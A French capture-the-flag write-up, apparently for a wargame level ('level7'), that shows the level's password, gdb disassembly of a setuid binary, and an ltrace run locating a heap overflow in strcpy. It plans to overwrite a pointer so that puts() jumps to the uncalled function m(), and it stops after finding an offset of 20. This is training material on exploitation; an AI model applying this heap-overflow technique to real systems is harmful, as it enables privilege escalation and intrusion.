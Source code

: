 # Level7

> login:password -> *`level7:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`*
```
:~$ su level7
Password:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
---

```
:~$ pwd
/home/user/level7
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level7` :

```
:~$ ./level7
Segmentation fault (core dumped)

:~$ ./level7 test
Segmentation fault (core dumped)
```

Avec ou sans paramètre le binaire segfault.

```
:~$ gdb level7
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	    push   %ebp
   0x08048522 <+1>:	    mov    %esp,%ebp
   0x08048524 <+3>:	    and    $0xfffffff0,%esp
   0x08048527 <+6>:	    sub    $0x20,%esp
   0x0804852a <+9>:	    movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
```

Le main appel plusieurs fonctions `malloc()`:
- (+16) de `0x8` (8)
- (+42) de `0x8` (8)
- (+63) de `0x8` (8)
- (+89) de `0x8` (8)

On y voit aussi l'utilisation de deux fonctions `strcpy()` qui attendent des arguments 1 et 2. Du coup je rajoute ce petit test, car le segfault est probablement provoque par le manque d'un 2e argument.

```
:~$ ./level7 test test
~~
```

Effectivement, cette fois le binaire ne segfault pas, mais affiche `~~`. On continue donc de voir ce que le binaire contient.

On voit l'utilisation d'une fonction `fopen()`, ainsi que d'une fonction `fgets()` contenu dans une variable globale `c`, mais ne fait rien avec.

Puis au final on voit l'utilisation de `puts()` qui est la fonction qui introduit les caracteres `~~` une fois que 2 arguments ont pu etre renseigne


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x080483b0  printf@plt
(...)
0x080483c0  fgets@plt
(...)
0x080483d0  time@plt
(...)
0x080483e0  strcpy@plt
(...)
0x080483f0  malloc@plt
(...)
0x08048400  puts@plt
(...)
0x08048430  fopen@plt
(...)
0x080484f4  m
0x08048521  main
(...)

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	    push   %ebp
   0x080484f5 <+1>:	    mov    %esp,%ebp
   0x080484f7 <+3>:	    sub    $0x18,%esp
   0x080484fa <+6>:	    movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
```

On trouve egalement une fonction `m()` non appelee qui elle contient une fonction `time()` et `printf()`

Pour notre exploit, on va utiliser le 1er appel a la fonction `strcpy()` pour overwrite l'adresse du 2e. Ce qu'on veux c'est overwrite `puts()` pour acceder a la fonction `m()` a la place

```
:~$ ltrace ./level7 AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZzAaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz test2
__libc_start_main(0x8048521, 3, 0xbffff704, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                         = 0x0804a008
malloc(8)                                                         = 0x0804a018
malloc(8)                                                         = 0x0804a028
malloc(8)                                                         = 0x0804a038
strcpy(0x0804a018, "AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPp"...)         = 0x0804a018
strcpy(0x6c4c6b4b, "test2" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

```

On trouve un offset qui commence a **20**
